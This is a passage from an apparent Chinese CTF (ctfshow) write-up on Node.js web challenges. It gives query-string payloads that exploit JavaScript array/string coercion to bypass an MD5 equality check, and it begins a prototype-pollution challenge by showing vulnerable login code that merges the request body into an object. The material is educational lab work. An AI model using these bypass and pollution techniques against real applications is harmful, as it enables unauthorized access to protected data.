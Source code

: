 ```js
  	res.render('index',{ msg: 'tql'});
  }
  
});

module.exports = router;
```

```js
if(a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag))
```

payload

```
?a[c]=1&b[c]=2
```

```
> crypto.createHash('md5').update(a+'123').digest('hex');
'48f823cf3792a401f42d1633c4b8ca4d'
> crypto.createHash('md5').update(b+'123').digest('hex');
'48f823cf3792a401f42d1633c4b8ca4d'
```

```
?a[]=1&b=1
```

> `['a']+flag= = ='a'+flag`，比如flag是flag{123}，那么最后得到的都是`aflag[123}`，因此这个也肯定成立：`md5(['a']+flag)= = =md5('a'+flag)`，同时也满足a!==b

> `?a[0]=1&b[0]=2 不行`
>
> 但是如果传`a[0]=1&b[0]=2`，相当于创了个变量`a=[1] b=[2]`，再像上面那样打印的时候，`会打印出1flag{xxx}和2flag{xxx}`，md5不相等

## 原型链污染

### web338

给了源码

login.js

```javascript
var express = require('express');
var router = express.Router();
var utils = require('../utils/common');



/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var secert = {};
  var sess = req.session;
  let user = {};
  utils.copy(user,req.body);
  if(secert.ctfshow==='36dboy'){
    res.end(flag);
  }else{
    return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
  }
  
  
});

```
